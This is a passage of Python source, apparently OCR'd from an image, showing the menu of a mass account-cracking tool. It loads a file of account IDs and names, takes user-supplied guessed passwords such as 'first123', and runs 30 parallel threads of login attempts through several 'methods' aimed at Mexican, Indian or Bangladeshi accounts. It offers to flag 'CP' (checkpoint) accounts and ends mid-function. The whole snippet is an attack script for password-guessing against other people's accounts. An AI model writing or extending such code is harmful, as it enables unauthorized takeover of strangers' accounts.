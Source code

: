 def Fof():
	clear()
	#ckx()
	print(f" [\033[1;32m1\033[1;37m] FILE CLONEING ")
	print(f" [\033[1;32m2\033[1;37m] BD RANDOM CLONEING ")
	#print(f" [3] Gmail Cloning")
	print(f" [\033[1;31m0\033[1;37m] Exit")
	me=input(f' [\033[1;32m✓\033[1;37m] Choice : ')
	if me in ["2", "02"]:
	    os.system('python RANDOM.py')
     
	#if me in ["3","03"]:
		#gml()
	if me in ["1", "01","11","A","a"]:
		clear()
		file = input(f' [\033[1;32m✓\033[1;37m] Put File Location [\033[1;32m❯\033[1;37m] ')
		try:
			fo = open(file,'r').read().splitlines()
		except FileNotFoundError:
			print(f' [\033[1;32mX\033[1;37m] File location Not Found ')
			exit()
		print(f' [\033[1;31m1\033[1;37m] Method \033[1;32m1\033[1;37m [\033[1;32mMix Ids\033[1;37m] \n [\033[1;31m2\033[1;37m] Method \033[1;32m2\033[1;37m [\033[1;32mMexico Ids\033[1;37m] \n [\033[1;31m3\033[1;37m] Method \033[1;32m3\033[1;37m [\033[1;32mIndia Ids\033[1;37m] \n [\033[1;31m4\033[1;37m] Method \033[1;32m4\033[1;37m [\033[1;32mBd Ids\033[1;37m]  ')
		mthd=input(f' [\033[1;32m✓\033[1;37m] Choice : ')
		plist=[]
		try:
			ps_limit = int(input(f' [\033[1;32m?\033[1;37m] How Many Passwords Do You Want To Add [\033[1;32m⟩\033[1;37m] '))
		except:
			ps_limit =1
		print(f' [\033[1;32m•\033[1;37m] Example: \033[1;36mfirst last,firtslast,first123 \033[1;37m')
		for i in range(ps_limit):
			plist.append(input(f' [\033[1;32m✓\033[1;37m] Put password {i+1}[\033[1;32m❯\033[1;37m] '))
		print(f' [\033[1;32m?\033[1;37m] Do You Went Show CP IDs (y/n): ')
		cx=input(f' [\033[1;32m✓\033[1;37m] Choice : ')
		if cx in ['n','N','no','NO','2']:
			pcp.append(f'n')
		else:
			pcp.append(f'y')
		with tred(max_workers=30) as crack_submit:
			clear()
			total_ids = str(len(fo))
			print(f' Total Account : \033[1;32m'+total_ids+f' \n \033[1;37mMethod : \033[1;32mM{mthd}\033[1;37m')
			print(f"\033[1;36m Use Flight Mode For Speed Up\033[1;37m")
			linex()
			for user in fo:
				ids,names = user.split('|')
				passlist = plist
				if mthd in ['1','01']:
					crack_submit.submit(m1,ids,names,passlist)
				elif mthd in ['2','02']:
					crack_submit.submit(m2,ids,names,passlist)
				elif mthd in ['3','03']:
					crack_submit.submit(m3,ids,names,passlist)
				elif mthd in ['4','04']:
					crack_submit.submit(m4,ids,names,passlist)
				#elif mthd in ['5','05']:
					#crack_submit.submit(m5,ids,names,passlist)
				#elif mthd in ['6','06']:
					#crack_submit.submit(ffb4,ids,names,passlist)
				#elif mthd in ['7','07']: